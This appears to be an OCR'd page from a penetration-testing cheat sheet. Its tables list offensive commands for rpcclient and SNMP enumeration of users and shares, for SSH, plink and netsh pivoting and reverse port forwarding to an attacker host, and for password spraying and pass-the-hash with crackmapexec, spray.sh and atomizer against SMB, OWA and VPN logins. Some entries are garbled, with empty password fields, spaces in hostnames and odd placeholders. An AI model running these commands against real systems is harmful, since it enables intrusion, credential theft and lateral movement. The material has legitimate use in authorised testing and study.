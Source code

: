 |for Example  |
| ------------- |
|rpcclient –U “” [target IP address] |
| > querydominfo |
| >enumdomusers|
| >queryuser msfadmin| 
| >queryuser msfadmin|
|snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25 #User|
|snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2 # Running Service|
| snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5 #Hostname |
|snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1 #Share Information|
|snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3 #Openning Port|



### Advanced SSH and Window PortProxy Tunneling and Port Forwarding

| for Example |
| ------------- |
|ssh -L 127.0.0.1:8080:127.0.0.1:80 remotehost |
|ssh -nNT -L 8000:localhost:3306 user@pivoting host #Local Port Forwarding |
|ssh -nNT -R 0.0.0.0:4000:192.168.1.101:631 user@pivot host |
|ssh -D 5000 -nNT user@pivoting host #SOCKS Proxy|
|ssh -p 13339 -f -N j0hn@10.11.1.252  |
|ssh -N -f -D 8888 -p 22000 j0hn@192.168.13.252 |
|plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8 #winexe -U Administrator //127.0.0.1 "cmd.exe|
|plink.exe -l root -pw  -R 3389:127.0.0.1:3389 10.10.14.8 #rdesktop -U Administrator 127.0.0.1 |
|ssh -nNT -R 3389:localhost:3389 user@pivot host #Remote Port Forward |
|netsh interface portproxy add v4tov4 listenport=1111 Compromise Box=x.x.x.1 connectport=1111 connectaddress=Attacker|
|netsh interface portproxy add v4tov4 listenport=1111 listenaddress=x.x.x.1 connectport=1111 connectaddress=x.x.x.10 |
|netsh interface portproxy add v4tov4 listenport=9001 listenaddress=x.x.x.1 connectport=9001 connectaddress=x.x.x.100 |




|  Password Spraying Attack |
| ------------- |
| crackmapexec smb 192.168.1.1  -d ninja.corp -u MeME -P /usr/share/wordlists/rockyou.txt|
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| crackmapexec smb 192.168.1.1 -u MeMe -H NTHASH |
|crackmapexec smb 192.168.1.1 -u '' -p '' #NULL Sessions|
|spray.sh -smb 192.168.1.1 users.txt /usr/share/wordlists/rockyou.txt  1 35 ninja.corp|
|spray.sh -owa 192.168.1.1 users.txt  /usr/share/wordlists/rockyou.txt   1 35 Request.body #OWA|
|spray.sh -ciso 192.168.1.1 usernames.txt /usr/share/wordlists/rockyou.txt 1 35 #CISCO Web VPN|
|./atomizer.py owa contoso.com 'Fall2018' emails.txt|
